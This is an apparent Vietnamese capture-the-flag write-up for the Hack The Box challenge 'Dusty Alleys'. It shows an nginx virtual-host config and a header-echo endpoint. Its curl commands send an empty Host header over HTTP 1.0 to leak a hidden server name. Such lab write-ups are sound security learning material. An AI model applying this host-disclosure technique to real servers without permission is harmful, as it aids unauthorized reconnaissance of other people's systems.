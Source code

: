# CheatCodeHTB
## Dusty Alleys - HTTP 1.0 so stupid
### Solution

- Server config /alley và /think `listen 80 default_server;
        server_name alley.$SECRET_ALLEY;` nhưng chỉ có ` server_name guardian.$SECRET_ALLEY;` cho `/guardian`
=> Ta cần `$SECRET_ALLAY` để truy cập endpoint /guardian ~~nơi chứa SSRF~~
```config
server {
        listen 80 default_server;
        server_name alley.$SECRET_ALLEY;

    location / {
        root /var/www/html/;  
        index index.html;              
    }

        location /alley {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }

        location /think  { 
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;

                        }
}

server {
        listen 80;
                server_name guardian.$SECRET_ALLEY;

        location /guardian {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host; 
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }
}
```
- Endpoint `/think` trả về request header
```
router.get("/think", async (req, res) => {
  return res.json(req.headers);
});

\\Exam response
{
   "host":"94.237.48.147",
   "x-real-ip":"10.30.18.144",
   "x-forwarded-for":"10.30.18.144",
   "x-forwarded-for:"http",
   "connection":"close",
   "accept-language":"en-US,en;q=0.9",
   "upgrade-insecure-requests":"1",
   "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36",
   "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
   "accept-encoding":"gzip, deflate, br",
   "if-none-match":"W/\"1ff-LedyLfO3NsGXjDLDeEoUwvsCLx8\""
}
```
- Ta có thể thấy `"x-real-ip", "x-forwarded-for" và "x-forwarded-for" không hề có trong request mà ta gửi. Có thể suy ra được các header này được Proxy thêm vào trong quá trình gửi request
-  Vậy `proxy_set_header Host $host` thì sao, ta có sẵn Host trong header nên /think trả về "host":"94.237.48.147". Vậy nếu ta không truyền "Host", hoặc Host rỗng thì sao? ~~thì Bad Reuqest :)))~~

```
curl -H "Host:" http://94.237.48.147:49291/think
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```
### Giao thức HTTP 1.0
- Giao thức HTTP 1.0 không yêu cầu header "Host" trong request header
```
curl -H "Host:" --http1.0 http://94.237.48.147:49291/think
{"host":"alley.firstalleyontheleft.com","x-real-ip":"10.30.18.144","x-forwarded-for":"10.30.18.144","x-forwarded-proto":"http","connection":"close","user-agent":"curl/8.5.0","accept":"*/*"}(base)
```
**WIN** <img width="1077" height="800" alt="image" src="https://github.com/user-attachments/assets/c217ea43-8d21-44d9-bd0d-efdcf9d69f46" />

